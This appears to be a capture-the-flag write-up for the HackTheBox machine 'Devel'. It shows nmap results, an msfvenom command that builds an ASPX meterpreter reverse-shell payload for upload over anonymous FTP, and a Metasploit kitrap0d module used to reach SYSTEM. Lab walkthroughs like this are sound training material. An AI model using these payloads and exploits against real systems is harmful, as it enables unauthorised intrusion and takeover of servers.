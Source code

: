 ```yaml
---
layout: post
title:  "HackTheBox - Devel"
date:   2020-1-2 00:10:00 +0000
categories: htb
permalink: /:categories/devel/
---
```



# Nmap scan
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```

# Exploitation
As the first scan shows, ftp is open and the web server is hosting the files put into ftp. We can create a aspx payload with msfvenom and upload that to test for a shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<X> LPORT=<X> -f aspx -o fml.aspx
```
Our metasploit handler returns a shell. Backgrounding the session allows us to take advantage of metasploits local_exploit/suggestor. Running this module returns some available modules that may work to get higher privileges.
```
use exploit/windows/local/ms10_015_kitrap0d
```
Running this module on the backgrounded session elevates us to SYSYEM


